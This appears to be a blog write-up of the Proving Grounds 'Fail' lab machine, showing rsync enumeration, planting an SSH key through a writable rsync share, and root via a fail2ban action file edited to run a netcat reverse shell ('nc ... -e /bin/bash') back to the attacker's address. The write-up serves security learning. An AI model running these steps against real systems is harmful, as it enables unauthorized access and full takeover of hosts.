 ```yaml
---
title: "Proving grounds Practice: Fail"
layout: post
date: 2023-12-30 02:00
categories: writeup
---
```


Proving grounds Practice - Fail CTF writeup.

## Nmap

```text
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
873/tcp open  rsync   (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 873/tcp open  rsync (protocol version 31)

List `rsync` modules using nmap.

```sh
naveenj@hackerspace:|01:49|~/proving_grounds/Fail$ nmap -sV --script "rsync-list-modules" -p 873 192.168.195.126
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-20 01:50 EDT
Nmap scan report for 192.168.195.126
Host is up (0.28s latency).

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  fox            	fox home
```

**Rsync Enumeration**

```sh
naveenj@hackerspace:|01:52|~/proving_grounds/Fail$ rsync -av --list-only rsync://192.168.195.126/
fox            	fox home

naveenj@hackerspace:|01:53|~/proving_grounds/Fail$ rsync -av --list-only rsync://192.168.195.126/fox
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 09:21:59 .
lrwxrwxrwx              9 2020/12/03 15:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 00:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 00:12:36 .bashrc
-rw-r--r--            807 2019/04/18 00:12:36 .profile
```

Upload .ssh directory with our SSH public key as authorized_keys

```sh
naveenj@hackerspace:|02:12|~/proving_grounds/Fail$ rsync -av .ssh/ rsync://fox@192.168.195.126/fox/.ssh
sending incremental file list
created directory /.ssh
./
authorized_keys

sent 27,331 bytes  received 161 bytes  7,854.86 bytes/sec
total size is 26,861  speedup is 0.98
```

**.ssh Folder**

```sh
naveenj@hackerspace:|02:14|~/proving_grounds/Fail$ ll .ssh
total 48K
4.0K drwxr-xr-x 3 naveenj naveenj 4.0K Oct 20 02:12 ../
4.0K -rw-r--r-- 1 naveenj naveenj  573 Oct 20 01:56 authortized_keys
```

SSH to user fox to obtain initial foothold.

## Privilege Escalation

Check user and group id

```sh
uid=1000(fox) gid=1001(fox) groups=1001(fox),1000(fail2ban)
```

## Fail2ban Privilege Escalation

[https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7](https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7)

The user can write permission to action.d folder and upon recon the fail2ban is enabled for the SSH service.

```conf
# Provide customizations in a jail.local file or a jail.d/customisation.local.
# For example to change the default bantime for all jails and to enable the
# ssh-iptables jail the following (uncommented) would appear in the .local file.
# See man 5 jail.conf for details.
#
# [DEFAULT]
# bantime = 1h
#
# [sshd]
# enabled = true
```

The default configuration says the host will be banned for a minute after 2 invalid attempts.

```conf
# "bantime" is the number of seconds that a host is banned.
bantime  = 1m

# A host is banned if it has generated "maxretry" during the last "findtime"
# seconds.
findtime  = 10m

# "maxretry" is the number of failures before a host get banned.
maxretry = 2
```

Upon changing the config in the iptables-multiport.conf to a reverse shell.

```conf
#actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
actionban = /usr/bin/nc 192.168.45.247 80 -e /bin/bash
```

Run the netcat listener and try invalid ssh login attemps to trigger shell.

![img](/assets/images/CTF/Proving_Grounds/Fail/root.png)

**Root obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
